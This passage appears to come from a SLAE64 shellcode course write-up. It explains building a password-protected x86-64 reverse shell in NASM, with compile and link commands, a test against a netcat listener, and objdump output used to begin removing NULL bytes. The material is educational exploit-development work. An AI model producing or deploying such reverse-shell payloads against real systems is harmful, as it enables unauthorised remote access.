 ```asm
        syscall 
```

#### Putting All Together

The code for this first version of the Reverse Shell, can be found in the [ReverseShell-ExecveStack](https://github.com/galminyana/SLAE64/blob/main/Assignment02/ReverseShell-ExecveStack.nasm) on the [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment02).

Let's try the code compiling and linking it. Commands are:

```bash
SLAE64> nasm -f elf64 ReverseShell-ExecveStack.nasm -o ReverseShell-ExecveStack.o
SLAE64> ld -N ReverseShell-ExecveStack.o -o ReverseShell-ExecveStack
```
<img src="https://galminyana.github.io/img/A02_ReverseShell-ExecveStack_Compile.png" width="75%" height="75%">

> The **-N** option in the linker is needed, as the code access to memory positions in the `.text` section (code) instead `.data` section during the execution.

To test, a `netcat` listener needs to be opened. Now the program can be run, and in the `netcat` listener, will get the `"Passwd: "` prompt:

<img src="https://galminyana.github.io/img/A02_ReverseShell-ExecveStack_Exec01.png" width="75%" height="75%">

Like in the previous assignment, if the password is correct, the program continues. If password is incorrect, the program ends with a segmentation fault.

### Remove NULLs and Reduce Shellcode Size
---
> The final ASM code after the changes explained in this section, can be found at the [ReverseShell-ExecveStack_V2.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment02/ReverseShell-ExecveStack_V2.nasm) file on the [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment02).

The actual shellcode has several NULLs and a size of 223 bytes. With `objdump`, opcodes for the instructions are shown and can review the NULLs in the shellcode:

```bash
SLAE64> objdump -M intel -d ReverseShell-ExecveStack.o
ReverseShell-ExecveStack.o:     formato del fichero elf64-x86-64
Desensamblado de la sección .text:

0000000000000000 <_start>:
   0:	eb 10                	jmp    12 <real_start>

0000000000000012 <real_start>:
  12:	b8 29 00 00 00       	mov    eax,0x29
  17:	bf 02 00 00 00       	mov    edi,0x2
  1c:	be 01 00 00 00       	mov    esi,0x1
  21:	ba 00 00 00 00       	mov    edx,0x0
  26:	0f 05                	syscall 
  28:	48 89 c7             	mov    rdi,rax
  2b:	48 31 c0             	xor    rax,rax
  2e:	50                   	push   rax
```
`objdump` shows instructions that use NULLs. First step, is removing the NULLs replacing instructions by other instructions that do the same but not using NULLs. Some examples of how to remove NULLs are:
